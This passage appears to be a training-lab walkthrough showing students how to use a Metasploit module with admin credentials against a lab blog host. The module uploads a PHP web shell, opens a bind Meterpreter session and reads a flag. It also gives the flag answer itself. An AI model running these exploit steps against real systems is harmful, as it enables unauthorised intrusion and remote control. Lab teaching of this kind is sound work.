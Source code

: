 ```
msf6 exploit(50064) > set VHOST blog.inlanefreight.local

vhost => blog.inlanefreight.local
msf6 exploit(50064) > set RHOSTS 172.16.1.12
RHOSTS => 172.16.1.12
msf6 exploit(50064) > set RHOST 172.16.1.12
RHOST => 172.16.1.12
msf6 exploit(50064) > set USERNAME admin
USERNAME => admin
msf6 exploit(50064) > set PASSWORD admin123!@#
PASSWORD => admin123!@#
```

Then, students need to launch the exploit:

Code: shell

```shell
exploit
```

```
msf6 exploit(50064) > exploit

[*] Got CSRF token: de5286279a
[*] Logging into the blog...
[+] Successfully logged in with admin
[*] Uploading shell...
[+] Shell uploaded as data/i/4zDx.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 172.16.1.12:4444
[*] Sending stage (39282 bytes) to 172.16.1.12
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444) at 2022-11-11 03:07:08 -0500

meterpreter >
```

After attaining the `meterpreter` session successfully, students can read the flag file "flag.txt" which is under the `/customscripts/` directory using `cat`:

Code: shell

```shell
cat /customscripts/flag.txt
```

```
meterpreter > cat /customscripts/flag.txt

B1nD_Shells_r_cool
```

Alternatively, students can also drop into a system shell then read the flag file:

Code: shell

```shell
shell
cat /customscripts/flag.txt
```
